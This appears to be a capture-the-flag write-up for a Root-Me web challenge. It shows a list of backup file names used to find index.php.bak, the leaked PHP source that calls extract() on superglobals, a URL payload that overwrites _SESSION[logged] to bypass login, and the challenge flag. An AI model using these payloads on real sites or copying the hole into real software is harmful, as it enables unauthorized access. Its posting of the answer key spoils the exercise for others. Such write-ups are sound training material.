

I took this list of possible backup files of `index.php` from chatGPT:
```
index.php~
index.php.bak
index.php.bkp
index.php.old
index.php.orig
index.php.save
index.php.swp         
index.php.swo
index.php.tmp
index.php.copy
```
And put it in burp intruder, to find the backup file, and I found out that `index.php.bak` exists


So I downloaded this file, and this is what I got:
```php
<?php


function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}


function display($res){
    $aff= '
	  <html>
	  <head>
	  </head>
	  <body>
	    <h1>Authentication v 0.05</h1>
	    <form action="" method="POST">
	      Password&nbsp;<br/>
	      <input type="password" name="password" /><br/><br/>
	      <br/><br/>
	      <input type="submit" value="connect" /><br/><br/>
	    </form>
	    <h3>'.htmlentities($res).'</h3>
	  </body>
	  </html>';
    return $aff;
}


session_start();
if ( ! isset($_SESSION["logged"]) )
    $_SESSION["logged"]=0;

$aff="";
include("config.inc.php");

if (isset($_POST["password"]))
    $password = $_POST["password"];

if (!ini_get('register_globals')) {
    $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
    if (isset($_SESSION)) {
        array_unshift($superglobals, $_SESSION);
    }
    foreach ($superglobals as $superglobal) {
        extract($superglobal, 0 );
    }
}

if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}

echo $aff;

?>
```

As you can see, it checks here whether you are logged_in, or password equal to hidden_password.
```php
if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}
```

However, when using global_variables, it means that we can access `?var=123`, and it will set in the code: `$var=123;`

So, let's try this:
`http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1`

And we get the password.

Another method, is to set both `password` and `hidden_password` to same values, and then you will be set `logged_in`, but you will get the fake password. 
Then, you'll remove the fake passwords, and get the real password because the `logged_in` is stored in the session.


**Flag:** ***`NoTQYipcRKkgrqG`***
